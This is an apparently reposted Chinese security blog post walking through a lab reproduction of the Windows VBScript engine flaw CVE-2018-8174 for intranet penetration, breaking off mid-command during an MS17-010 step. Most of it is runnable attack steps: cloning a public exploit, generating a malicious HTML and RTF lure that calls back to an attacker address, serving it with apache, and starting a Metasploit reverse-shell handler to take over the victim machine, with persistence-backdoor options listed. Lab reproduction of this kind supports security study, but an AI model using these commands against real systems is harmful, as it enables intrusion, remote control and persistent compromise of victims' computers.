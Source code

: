 ```yaml
---
layout:     post
title:      基于Windows VBScript Engine代码执行漏洞 (CVE-2018-8174)的内网渗透攻击
subtitle:   CVE-2018-8174漏洞复现|内网渗透|权限维持|脚本编程|痕迹清除
date:       2019-01-01
author:     Waldo
header-img: img/post-bg-自然风景19.jpg
catalog: true
tags:
    - web安全
---
```


[本文已在i春秋论坛发表](https://bbs.ichunqiu.com/thread-49407-1-1.html)

本文涉及的知识点: `CVE-2018-8174漏洞复现`、`内网渗透`、`权限维持`、`脚本编程`、`痕迹清除`

# CVE-2018-8174漏洞简介

CVE-2018-8174是 Windows VBScript Engine 代码执行漏洞。由于VBScript脚本执行引擎(vbscript.dll)存在代码执行漏洞，攻击者可以将恶意的VBScript嵌入到Office文件或者网站中，一旦用户不小心点击，远程攻击者可以获取当前用户权限执行脚本中的恶意代码，该漏洞影响最新版本的IE浏览器及使用了IE内核的应用程序。用户在浏览网页或打开Office文档时都可能中招，最终被黑客植入后门木马完全控制电脑。在基于Web的攻击情形中，攻击者能通过Internet Explorer利用此漏洞的特定网站，然后诱使用户查看该网站。攻击者还可以在承载IE呈现引擎的应用程序或Microsoft Office文档中嵌入标记为“安全初始化”的ActiveX控件。攻击者还可以利用受到破坏的网站和接受或托管用户提供的内容或广告的网站。这些网站可能包含可能利用此漏洞的特制内容。

# Persistence后门

Persistence是一款使用安装自启动方式的持久性后门程序，读者可以利用	它创建注册和文件。
参数解释:
- A: 自动启动Payload程序 
- S: 系统启动时自动加载
- U: 用户登录时自动启动
- X: 开机时自动加载
- i: 回连的时间间隔
- P: 监听反向连接端口号
- r: 目标机器IP地址

# 环境搭建
## 拓扑图
![](https://upload-images.jianshu.io/upload_images/7216746-5d1786d67c62853c.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## Win server 2008 对Windows 7开启1433端口

 1. 选择“打开或者关闭Windows防火墙”把防火墙打开，然后选择“高级设置”，选择“创建规则”来指定端口。

2. 在“入站规则”里选择刚才创建的规则，名称是“1433”，如下图所示
![](https://upload-images.jianshu.io/upload_images/7216746-25f2d0aab494508e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

3. 在属性对话框中，选择“远程IP地址”时，使用Windows7 的IP地址：172.20.10.177，配置完成后，Win server 2008 对Windows7成功开启1433端口
![](https://upload-images.jianshu.io/upload_images/7216746-df8043e6bfda6032.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 内网攻击过程
## 1号机获得2号机的权限
### 利用CVE-2018-8174漏洞获取2号机(Windows 7)权限，添加攻击者用户

1. 从github上克隆CVE-2018-8174的EXP到Kali Linux    
    `git clone https://github.com/iBearcat/CVE-2018-8174_EXP.git`
![](https://upload-images.jianshu.io/upload_images/7216746-131c2e12cbfa38ca.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

2. 生成恶意html和rtf文件
`cd CVE-2018-8174_EXP/`

`python CVE-2018-8174.py -u http://192.168.114.130/exploit.html -o exploit.rtf -i 192.168.114.130 -p 4444`
![](https://upload-images.jianshu.io/upload_images/7216746-35e332af8c9080c1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

3. 将恶意html文件移动到网站根目录，启动apache2服务

`cp exploit.html /var/www/html/`
`service apache2 start`
![](https://upload-images.jianshu.io/upload_images/7216746-5fb45bfeb3543718.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

4. 新打开一个终端，生成MSF监听

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD Windows/shell/reverse_tcp; set LHOST 192.168.114.130; set lport 4444; run"
```
![](https://upload-images.jianshu.io/upload_images/7216746-b1b7f72a33457f3b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

5. 受害者点击恶意链接

![](https://upload-images.jianshu.io/upload_images/7216746-e62e2ad770109a48.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

6. 在kali里接收到了shell，可在meterpreter中管理shell
发现非管理员权限

![接收到反弹的shell](https://upload-images.jianshu.io/upload_images/7216746-70ec2bdd1c77ec7b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

![非管理员权限](https://upload-images.jianshu.io/upload_images/7216746-39fe21067ffca550.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

7. 使用MS17-010模块进行提权
`use auxiliary/scanner/smb/smb_ms17_010`
![使用ms17-010模块](https://upload-images.jianshu.io/upload_images/7216746-d224b2f1691e6fa8.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

在运行该模块之前，需要设置相关选项，我们使用show options查看配	置信息

![show options](https://upload-images.jianshu.io/upload_images/7216746-66dbea9e18331a0f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

8. 需要设置目标地址，设置命令：`set RHOSTS